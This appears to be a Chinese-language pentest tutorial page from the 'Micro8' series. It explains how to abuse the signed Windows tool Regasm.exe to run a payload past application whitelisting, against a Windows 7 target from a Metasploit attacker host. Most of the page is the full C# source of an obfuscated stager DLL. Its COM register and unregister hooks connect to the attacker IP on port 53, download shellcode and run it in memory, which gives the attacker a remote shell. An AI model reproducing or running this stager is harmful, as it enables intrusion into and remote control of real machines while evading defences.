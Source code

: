 ```yaml
---
title: 73、基于白名单Regasm.exe执行payload第三季
date: 2019-09-21 19:06:18
comments: true
categories: 
 - Micro8系列
---
```




### Regasm简介：

Regasm 为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中。RegAsm.exe是Microsoft Corporation开发的合法文件进程。它与Microsoft.NET Assembly Registration Utility相关联。

**说明：**Regasm.exe所在路径没有被系统添加PATH环境变量中，因此，REGASM命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool

基于白名单Regasm.exe配置payload：

Windows 7 默认位置：
```code
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](../do/media/314cbd2bd9ab4f06f2323a2cd8c0d624.jpg)

### 靶机执行：
```code
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U Micropoor.dll
```
![](../do/media/868577dc3b5b517840363527f5b5ad2b.jpg)


### 附录：Micropoor.cs
**注：x86 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace HYlDKsYF

{

public class kxKhdVzWQXolmmF : ServicedComponent { 

public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); } 

[ComRegisterFunction]

public static void RegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

}

} 

public class ZApOAKJKY

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF, UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy, int iJGvqiEDGLhjr) {

IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy), iJGvqiEDGLhjr);

Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }

catch { return null;}

byte[] Bjpvhc = new byte[4];

MXCEuiuRIWgOYze.Receive(Bjpvhc, 4, 0);

int IETFBI = BitConverter.ToInt32(Bjpvhc, 0);

byte[] ZKSAAFwxgSDnTW = new byte[IETFBI + 5];

int JFPJLlk = 0;

while (JFPJLlk < IETFBI)

{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk + 5, (IETFBI ‐ JFPJLlk) < 4096 ? (IETFBI ‐ JFPJLlk) : 4096, 0);}

byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);

Array.Copy(nXRztzNVwPavq, 0, ZKSAAFwxgSDnTW, 1, 4); ZKSAAFwxgSDnTW[0] = 0xBF;

return ZKSAAFwxgSDnTW;}

static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {

if (KNCtlJWAmlqJ != null) {

UInt32 uuKxFZFwog = HeapCreate(0x00040000, (UInt32)KNCtlJWAmlqJ.Lengt h, 0);

UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog, 0x00000008, (UInt32)KNCtlJWAmlqJ.Length);

RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ, (UInt32)KNCtlJWAmlqJ.Length);

UInt32 ijifOEfllRl = 0;

IntPtr ihXuoEirmz = CreateThread(0, 0, sDPjIMhJIOAlwn, IntPtr.Zero, 0, ref ijifOEfllRl);

WaitForSingleObject(ihXuoEirmz, 0xFFFFFFFF);}} 

public static void QYJOTklTwn() {

byte[] ZKSAAFwxgSDnTW = null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.1.4", 53);

TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);

} } }
```
>   Micropoor
